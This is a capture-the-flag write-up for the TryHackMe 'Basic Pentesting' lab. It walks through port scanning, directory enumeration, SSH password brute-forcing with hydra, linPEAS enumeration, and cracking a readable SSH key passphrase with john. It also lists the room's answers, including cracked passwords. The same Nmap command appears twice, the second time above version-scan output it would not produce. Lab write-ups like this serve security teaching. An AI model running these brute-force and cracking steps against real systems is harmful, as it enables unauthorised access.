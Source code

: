 ```yaml
---
title: Basic Pentesting
date: 2022-04-25 17:00:00 +500
categories: [thm, easy-machines]
tags: [bruteforce,hash]     # TAG names should always be lowercase
---
```



## Web App Testing and Privilege Escalation

### Find the services exposed by the machine
We are going to start with a fast Nmap scan and then a more detailed of the ports found

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
```

```bash
nmap -p- -open -T4 -v -n 10.10.31.125
```

```
PORT     STATE  SERVICE       VERSION
22/tcp   open   ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open   http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
445/tcp  open   netbios-ssn   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
1339/tcp closed kjtsiteserver
8009/tcp open   ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### What is the name of the hidden directory on the web server(enter name without /)?

Going to the site there's nothing helpful, but in the source code, there's a comment "Check our dev note section if you need to know what to work on." this might be a hint. anyway let's run a directory scan with Gobuster

```bash
gobuster dir -u 10.10.31.125 -w /usr/share/dirb/wordlists/common.txt
```

and sure it was, the scan found the /development directory. in there, we found two notes

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

```

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

from this we can deduct things, there are two potential users -J and -K, the user -J has a weak password, and they're using some software with version 2.5.12

### User brute-forcing to find the username & password

I don't how I was supposed to brute force the username but doing reconnaissance on the smb service I found a Anonymous share that I can log into, and there it was a note with the usernames

```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

### What is the username?

> jan

### What is the password?

now I guess this is the part where I have to brute force, and by discard, I'll brute force the ssh service. For this I'll use hydra, the syntax is:
hydra -l [user] -P [passlist] [ip] -t 64 ssh
- t being the number of parallel task

```terminal
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.31.125 -t 64 ssh
```

and we got a password!

```
[22][ssh] host: 10.10.31.125   login: jan   password: armando
```

> armando

### What service do you use to access the server(answer in abbreviation in all caps)?

> SSH 

### Enumerate the machine to find any vectors for privilege escalation

I didn't find anything doing a quick enum so I'll try to use linPEAS as the hint also say.

I don't have writing permissions on my home directory so I'll transfer the file to the /dev/shm directory which is for creating temporary files and we have writing permissions there using scp.

```terminal
scp ./linpeas.sh jan@10.10.31.125:/dev/shm
```
then make it executable and run it 

```terminal
chmod +x linpeas.sh
./linpeas.sh
```

kay id_rsa key is readable


### What is the name of the other user you found(all lower case)?

checking the /home directory we can see that is:

> kay

### If you have found another user, what can you do with this information?

since we know that kay id_rsa key is readable let's try to crack it with john

first, we convert it to a format that john understand with ssh2john

```terminal
ssh2john id_rsa > hash
```

then we can crack the passphrase with:
```terminal
john -w=/usr/share/wordlists/rockyou.txt hash
```
 
this gave us 
```
beeswax          (id_rsa)
```

now let's try to connect to this user.

remember to give permissions to the id_rsa key
```
chmod 600 id_rsa
```

and now we connect with:
```terminal
ssh -i id_rsa kay@10.10.31.125
```

we put in the passphrase that we cracked, and we are in!

### What is the final password you obtain?

now that we are in we can read the file pass.bak that we saw previously in the enum phase, which contained this password.

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
